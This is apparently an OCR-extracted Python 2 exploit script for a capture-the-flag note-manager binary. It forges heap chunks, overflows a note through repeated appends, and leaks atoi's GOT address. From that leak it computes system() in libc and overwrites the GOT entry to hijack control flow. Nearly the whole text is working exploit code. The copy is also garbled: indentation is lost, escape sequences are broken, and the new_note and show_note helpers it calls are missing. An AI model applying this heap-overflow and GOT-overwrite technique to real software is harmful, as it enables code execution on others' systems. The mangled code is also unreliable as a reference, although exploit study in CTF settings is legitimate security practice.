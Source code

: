 ```
def delete_note(io, id_t):
io.read_until("option---&gt;&gt;n")
io.writeline("2")
io.read_until("id of the note:n")
io.writeline(str(id_t))
def edit_note(io, id_t, type_t, content_t):
io.read_until("option---&gt;&gt;n")
io.writeline("3")
io.read_until("id of the note:n")
io.writeline(str(id_t))
io.read_until("[1.overwrite/2.append]n")
io.writeline(str(type_t))
io.read_until("Contents:")
io.writeline(content_t)
def pwn(io):
name_addr = 0x6020E0
address_addr = 0x602180
address = 'aaa'
name  = l64(0x20) + l64(0x21)
name = name.ljust(0x20, 'a')
name += l64(0x20) + l64(0x21)
name += l64(0x0)
io.read_until("Input your name:n")
io.writeline(name)
io.read_until("Input your address:n")
io.writeline(address)
new_note(io, 0, '')
new_note(io, 0x80, '')
atoi_got = 0x0000000000602088
manage_addr = 0x602120
payload = 'a' * 0x10
for i in range(7):
edit_note(io, 0, 2, payload)
payload = 'a' * 0xf
edit_note(io, 0, 2, payload)
payload = 'a' + l64(name_addr + 0x10)
edit_note(io, 0, 2, payload)
io.gdb_hint()
new_note(io, 0, '')
payload = 'a' * 0x10
for i in range(2):
edit_note(io, 2, 2, payload)
payload = 'a' * 0xf
edit_note(io, 2, 2, payload)
payload = 'a' + l64(atoi_got)
edit_note(io, 2, 2, payload)
show_note(io, 0)
io.read_until('Content is ')
data = io.read_until("n")[:-1]
print [c for c in data]
data = data.ljust(8, 'x00')
aoti_addr = l64(data)
print "aoti_addr:", hex(aoti_addr)
elf_info = ELF("./libc-2.19.so")
#elf_info = ELF("./libc.so.6")
atoi_offset = elf_info.symbols["atoi"]
system_offset = elf_info.symbols["system"]
libc_base = aoti_addr - atoi_offset
system_addr = libc_base + system_offset
content = l64(system_addr)
print "system_addr:", hex(system_addr)
edit_note(io, 0, 1, content)
io.read_until("option---&gt;&gt;n")
```